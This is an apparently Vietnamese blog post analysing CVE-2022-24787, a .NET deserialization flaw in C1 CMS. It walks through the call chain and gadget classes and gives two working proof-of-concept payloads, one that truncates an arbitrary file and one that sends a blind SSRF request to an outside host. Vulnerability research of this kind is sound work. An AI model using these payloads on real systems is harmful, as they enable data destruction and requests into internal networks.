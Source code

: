 Tiếp nối những bài phân tích về lỗ hổng trên C1 CMS. Hôm nay tôi sẽ phân tích một lỗ hổng khá thú vị, đó là CVE-2022-24787, lỗ hổng Deserialization dẫn đến SSRF hoặc cắt nội dung file tùy ý trên C1 CMS. Theo thông tin về lỗ hổng này tại [https://securitylab.github.com/advisories/GHSL-2022-001_Orckestra_C1_CMS/](https://securitylab.github.com/advisories/GHSL-2022-001_Orckestra_C1_CMS/). Ta được biết lỗ hổng tồn tại trên C1 CMS < 6.12. Không hiểu vì sao, mà tôi không thể cài đặt phiên bản 6.11 nên trong bài phân tích này tôi sử dụng phiên bản 6.10 để phân tích. 
# Cài đặt môi trường Debug
Việc cài đặt môi trường để debug C1 CMS khá đơn giản, nếu các bạn chưa thể thực hiện debug các bạn có thể làm theo hướng dẫn trong bài viết trước tại [https://viblo.asia/p/think-out-of-the-box-trong-viec-tim-kiem-lo-hong-net-deserialization-djeZ1zw8lWz](https://viblo.asia/p/think-out-of-the-box-trong-viec-tim-kiem-lo-hong-net-deserialization-djeZ1zw8lWz).

# Phân tích CVE-2022-24787
Để vá lỗ hổng RCE tôi tìm ra trước đó với mã CVE-2021-34992, chương trình đã thực hiện chỉnh sửa lại lớp `CompositeSerializationBinder`. Lớp này không cho phép chúng ta khởi tạo các lớp tùy ý nữa từ đó không thể tạo các gadget chain để thực hiện RCE, nhưng lại cho phép chúng ta khởi tạo bất kì lớp C1 nội bộ nào và các lớp thuộc thư viện tiêu chuẩn `mscorlib` hoặc `System`, `System.Collections` (Lưu ý hình dưới là chỉnh sửa ở phiên bản 6.11 nếu các bạn sử dụng phiên bản 6.10 để thực hiện phân tích thì sẽ có sự khác biệt).  

![image.png](https://images.viblo.asia/2f879e91-7bb7-4f38-9aa2-f2c1130391f2.png)

Về chain để đi đến điểm trigger của lỗ hổng này cũng như việc chèn payload của chúng ta vào đâu sẽ y hệt như bài viết trước đó tôi đã đề cập. Chain sẽ như sau:

```
Spikes_RelationshipGraph_Default.Page_Load(object sender, EventArgs e)
=> EntityTokenSerializer. Deserialize(string serializedEntityToken)
=> EntityTokenSerializer.Deserialize( string serializedEntityToken, bool includeHashValue) 
=> CompositeJsonSerializer.Deserialize<T>(string str, bool isSigned) 
=> CompositeJsonSerializer.Deserialize<T>(string str) 
=> JsonConvert.DeserializeObject<T >(str, new JsonSerializerSettings()
     {
       TypeNameHandling = TypeNameHandling.Auto,
       Binder = CompositeSerializationBinder.Instance
     });
 ```
 và chúng ta thực hiện chèn object payload của chúng ta vào thuộc tính `GroupingValues` của lớp `DataGroupingProviderHelperEntityToken`. 
 
 ![image.png](https://images.viblo.asia/dbf839ee-a5c3-4a1d-bf9a-19529e764042.png)
 
 Và rồi vấn đề của chúng ta bắt đầu từ đây. Do binder đã chặn khởi tạo các lớp tùy ý, nên ta không thực hiện RCE được mà chỉ có thể khởi tạo một số lớp giới hạn. Trường hợp này không khác gì việc có một miếng bánh ngon ngọt mà chúng ta chưa thể với tới.
 
 ![image.png](https://images.viblo.asia/fa44019b-6bf1-40d7-afbd-fccad0cc5c9c.png)
 
Bây giờ làm sao để có thể trèo lên chạm được vào miếng bánh ngon ngọt đó. Chúng ta phải tìm công cụ để làm được điều đó. Ở đây, ta sẽ thực hiện tìm kiếm trong các lớp nội bộ của C1 hoặc các lớp trong thư viện `mscorlib`, `System`, hoặc `System.Collections` một lớp nào đó để khi mà lớp đó được khởi tạo với các tham số tùy ý sẽ gây ra những hậu quả nhất định.  Một lưu ý khi các bạn tìm kiếm các lớp để thực hiện chain của mình đó là, phải tìm các lớp mà gọi các method khác trong constructor hay trong setter của một thuộc tính nào đó. Lý do là vì khi thực hiện deserialize, .NET chỉ thực hiện khởi tạo lại lớp dựa vào constructor và sử dụng setter để thiết lập thuộc tính. Do đó nếu như không tìm được lớp thỏa mãn điều kiện trên thì chain của chúng ta sẽ không thể đi tiếp được nữa. Quay lại với CVE-2022-24787, theo mô tả của CVE này, thì lỗ hổng có thể gây ra việc cắt nội dung file tùy ý hoặc thực hiện lỗ hổng SSRF.

## Cắt nội dung file tùy ý

Với lỗ hổng này, ta thực hiện tìm kiếm trong mã nguồn và tìm được lớp `Composite.Core.Implementation.C1FileStreamImplementation`. Constructor của lớp này như sau:

![](https://images.viblo.asia/9e32baa3-5f9d-4ff3-8741-305c1e77d477.png)

Như các bạn có thể thấy, sau khi set các giá trị cụ thể trong constructor, chương trình sẽ gọi tiếp đến method `CreateC1FileStream` để thực hiện tạo một file với các tham số đã được đặt trước. Chú ý ở thuộc tính `Position` chỉ định vị trí hiện tại của `FileStream`.

Các giá trị cụ thể của tham số truyền vào constructor như sau:

* path: chỉ định đường dẫn đến file 
* mode: chỉ định các mode làm việc với file ở tham số path
    * mode = 1: Tạo mới file
    * mode = 2: Tạo mới file, nếu file đã tồn tại sẽ ghi đè
    * mode = 3: Mở file
    * mode = 4: Mở file nếu tồn tại, ngược lại sẽ tạo mới file
    * mode = 5: Cắt file về 0 byte
    * mode = 6: Mở file và thêm vào cuối file, nếu không tồn tại sẽ tạo mới file

* access: Chỉ định quyền cho phép đọc, ghi file cụ thể:
    * access = 1: Đọc file
    * access = 2: Ghi file
    * access = 3: Đọc hoặc ghi file

* share: Chỉ định các kiểu truy cập mà các đối tượng `FileStream` khác có thể làm việc với file này
    * share = 0: Không chia sẻ file hiện tại cho đến khi được đóng
    * share = 1: Cho phép đối tượng khác mở file này để đọc khi đang làm việc với file
    * share = 2: Cho phép đối tượng khác mở file này để ghi khi đang làm việc với file
    * share = 3: Cho phép đối tượng khác mở file này để đọc hoặc ghi khi đang làm việc với file
    * share = 4: Cho phép xóa file
    * share = 16: file được kế thừa bởi tiến trình con

* bufferSize: chỉ định kích thước bộ đệm, mặc định là 4096 byte.

Như vậy để cắt nội dung file bất kì về 0 byte, ta thực hiện khởi tạo đối tượng lớp này với các giá trị: `mode = 5, path = "đường dẫn đến file tùy ý", access = 3, share = 3, bufferSize = 1024, Position = 0`.

Poc của lỗ hổng này như sau:

```
http://localhost:36859/Composite/content/views/relationshipgraph/default.aspx?EntityToken={"meta:obj":"{'$type':'Composite.C1Console.Elements.ElementProviderHelpers.DataGroupingProviderHelper.DataGroupingProviderHelperEntityToken, Composite','Type':'Composite.C1Console.Trees.TreeDataFieldGroupingElementEntityToken', 'Source':'','Id':'','GroupingValues':{'$type':'System.Collections.Generic.Dictionary`2[[System.String,mscorlib],[System.Object,mscorlib]],mscorlib', 'test':{'$type':'Composite.Core.Implementation.C1FileStreamImplementation, Composite','path':'C:/Users/le.ngoc.anhd/Downloads/testfile.txt','mode':5,'access':3,'bufferSize' :1024,'Position':0,'share':3}}}, 'Payload':null,'SerializedTypeName':'Composite.C1Console.Trees.TreeDataFieldGroupingElementEntityToken'}","meta:type":"System.Runtime.Serialization.SerializationException"}
```

## Lỗ hổng SSRF

Lỗ hổng này xảy ra khi khởi tạo lớp `Composite.C1Console.Forms.SchemaBuilder.ElementInformationExtractor`. Chúng ta hãy cùng xem xét kĩ hơn lớp này.

![image.png](https://images.viblo.asia/220a9f6d-1ead-4445-a7ba-d3145cdf9770.png)

Khi khởi tạo đối tượng lớp `ElementInformationExtractor` với tham số truyền vào là `configurationFilePath`. Chương trình sẽ thực hiện gọi đến `XDocumentUtils.Load(configurationFilePath)`. Nhảy vào method này ta được như sau:

![image.png](https://images.viblo.asia/a5c69c4b-4297-415c-af8a-0a8f40b22571.png)
 
 Nếu tham số ta truyền vào chưa kí tự `://` thì sẽ thực hiện `UriResolver.GetStream(inputUri)`. Đi tiếp vào method này.
 
 ![](https://images.viblo.asia/1d995704-2508-4928-a309-718224dbdec0.png)

Có thể thấy nếu uri ta truyền vào có schema không phải là `file` thì sẽ sử dụng `WebRequest.Create(requestUri)` để thực hiện request đến uri truyền vào và lấy response trả về đưa vào stream. Đây chính là nơi gây ra lỗi SSRF. Tuy nhiên đây lại là lỗi blind SSRF. Lý do là vì response sau khi trả về sẽ được chuyển vào `XDocument.Load(stream, loadOptions)` để chuyển thành một đối tượng `XDocument`. Tuy nhiên thì thông thường response trả về sẽ không phải dạng XML nên ở bước này sẽ gây ra lỗi của hệ thống, và ta sẽ không đọc được response trả về.  

Poc của lỗ hổng này như sau:

```
{"meta:obj":"{'$type':'Composite.C1Console.Elements.ElementProviderHelpers.DataGroupingProviderHelper.DataGroupingProviderHelperEntityToken,
Composite','Type':'Composite.C1Console.Trees.TreeDataFieldGroupingElementEntityToken',
'Source':'','Id':'','GroupingValues':{'$type':'System.Collections.Generic.Dictionary`2[[System.String,mscorlib],[System.Object,mscorlib]],mscorlib',
'test':{'$type':'Composite.C1Console.Forms.SchemaBuilder%2BElementInformationExtractor, Composite','configurationFilePath':'https://eo655liwfm5aoyu.m.pipedream.net?testSSRF=true'}}},
'Payload':null,'SerializedTypeName':'Composite.C1Console.Trees.TreeDataFieldGroupingElementEntityToken'}","meta:type":"System.Runtime.Serialization.SerializationException"}

```
Kết quả đạt được như sau:

![image.png](https://images.viblo.asia/a0ae5f27-c0d6-4996-af70-5eb258fbebc2.png)